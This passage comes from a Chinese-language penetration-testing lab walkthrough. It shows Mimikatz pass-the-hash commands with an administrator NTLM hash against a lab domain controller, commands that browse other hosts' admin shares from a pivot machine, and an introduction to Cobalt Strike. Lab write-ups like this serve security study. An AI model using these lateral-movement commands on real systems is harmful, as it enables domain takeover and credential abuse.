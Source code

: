 ![image-20211217095557865](https://gitee.com/xxb667/img/raw/master/img/image-20211217095557865.png)

```
privilege::debug  #提升权限

```

```
#开始 Pass-The-Hash(hash传递攻击域控服务器  也就是 192.168.52.138）
#格式sekurlsa::pth  /user: 用户名 /domain:域控名 /ntlm: NTLM哈希
sekurlsa::pth /user:administrator /domain:"god.org" /ntlm:a4ee66cc11243b7741dbb83262e7eba4

```

![image-20211217095816176](https://gitee.com/xxb667/img/raw/master/img/image-20211217095816176.png)



exit 退出

#### 中国蚁剑上运行

我们直接远程执行 域控服务器上的命令

以下所有的命令是在跳板机上执行。

这里要在中国蚁剑上面执行，在msf里面 会失败

```shell
dir \\192.168.52.138\c$       #查看 C盘目录里面的文件  \\就是网络路径   $就是 根目录的意思
或者
dir \\owa\c$
```

![image-20211217102019467](https://gitee.com/xxb667/img/raw/master/img/image-20211217102019467.png)

##### 执行第二台机器上的命令

```
dir \\192.168.52.141\c$
```

![image-20211217101923714](https://gitee.com/xxb667/img/raw/master/img/image-20211217101923714.png)





## 7.使用cobaltstike联动MSF

### 安装cobaltstike



#### Cobaltstrike简介

Cobalt Strike是一款美国Red Team开发的渗透测试神器，常被业界人称为CS。。
最近这个工具大火，成为了渗透测试中不可缺少的利器。其拥有多种协议主机上线方式，集成了提权，凭据导出，端口转发，socket代理，office攻击，文件捆绑，钓鱼等功能。同时，Cobalt Strike还可以调用Mimikatz等其他知名工具，因此广受黑客喜爱。
项目官网:[https://www.cobaltstrike.com](https://www.cobaltstrike.com/)
